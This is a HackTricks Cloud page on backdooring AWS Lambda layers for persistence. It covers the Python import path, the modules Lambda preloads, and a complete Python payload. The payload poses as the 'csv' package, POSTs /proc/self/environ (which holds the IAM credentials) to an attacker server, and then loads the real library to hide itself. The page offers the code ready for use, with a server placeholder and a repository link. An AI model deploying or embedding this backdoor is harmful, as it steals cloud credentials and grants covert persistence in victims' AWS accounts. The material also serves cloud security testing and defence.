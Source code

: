 # AWS - Lambda Layers Persistence

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* If you want to see your **company advertised in HackTricks** or if you want access to the **latest version of the PEASS or download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Lambda Layers

A Lambda layer is a .zip file archive that **can contain additional code** or other content. A layer can contain libraries, a [custom runtime](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html), data, or configuration files.

It's possible to include up to **five layers per function**. When you include a layer in a function, the **contents are extracted to the `/opt`** directory in the execution environment.

By **default**, the **layers** that you create are **private** to your AWS account. You can choose to **share** a layer with other accounts or to **make** the layer **public**. If your functions consume a layer that a different account published, your functions can **continue to use the layer version after it has been deleted, or after your permission to access the layer is revoked**. However, you cannot create a new function or update functions using a deleted layer version.

Functions deployed as a container image do not use layers. Instead, you package your preferred runtime, libraries, and other dependencies into the container image when you build the image.

### Python load path

The load path that Python will use in lambda is the following:

```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```

Check how the **second** and third **positions** are occupy by directories where **lambda layers** uncompress their files: **`/opt/python/lib/python3.9/site-packages`** and **`/opt/python`**

{% hint style="danger" %}
If an attacker managed to **backdoor** a used lambda **layer** or **add one** that will be **executing arbitrary code when a common library is loaded**, he will be able to execute malicious code with each lambda invocation.
{% endhint %}

Therefore, the requisites are:

* **Check libraries** that are **loaded** by the victims code
* Create a **proxy library with lambda layers** that will **execute custom code** and **load the original** library.

### Preloaded libraries

{% hint style="warning" %}
When abusing this technique I found a difficulty: Some libraries are **already loaded** in python runtime when your code gets executed. I was expecting to find things like `os` or `sys`, but **even `json` library was loaded**.\
In order to abuse this persistence technique, the code needs to **load a new library that isn't loaded** when the code gets executed.
{% endhint %}

With a python code like this one it's possible to obtain the **list of libraries that are pre loaded** inside python runtime in lambda:

```python
import sys

def lambda_handler(event, context):
    return {
        'statusCode': 200,
        'body': str(sys.modules.keys())
    }
```

And this is the **list** (check that libraries like `os` or `json` are already there)

```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```

And this is the list of **libraries** that **lambda includes installed by default**: [https://gist.github.com/gene1wood/4a052f39490fae00e0c3](https://gist.github.com/gene1wood/4a052f39490fae00e0c3)

### Lambda Layer Backdooring

In this example lets suppose that the targeted code is importing **`csv`**. We are going to be **backdooring the import of the `csv` library**.

For doing that, we are going to **create the directory csv** with the file ** `__init__.py`** on it in a path that is loaded by lambda: **`/opt/python/lib/python3.9/site-packages`**\
**``**Then, when the lambda is executed and try to load **csv**, our **`__init__.py` file will be loaded and executed**.\
This file must:

* Execute our payload
* Load the original csv library

We can do both with:

```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
    url= "https://attacker13123344.com/" #Change this to your server
    req = request.Request(url, data=file.read(), method="POST")
    response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```

Then, create a zip with this code in the path **`python/lib/python3.9/site-packages/__init__.py`** and add it as a lambda layer.

You can find this code in [**https://github.com/carlospolop/LambdaLayerBackdoor**](https://github.com/carlospolop/LambdaLayerBackdoor)****

The integrated payload will **send the IAM creds to a server THE FIRST TIME it's invoked or AFTER a reset of the lambda container** (change of code or cold lambda), but **other techniques** such as the following could also be integrated:

{% content-ref url="../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* If you want to see your **company advertised in HackTricks** or if you want access to the **latest version of the PEASS or download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
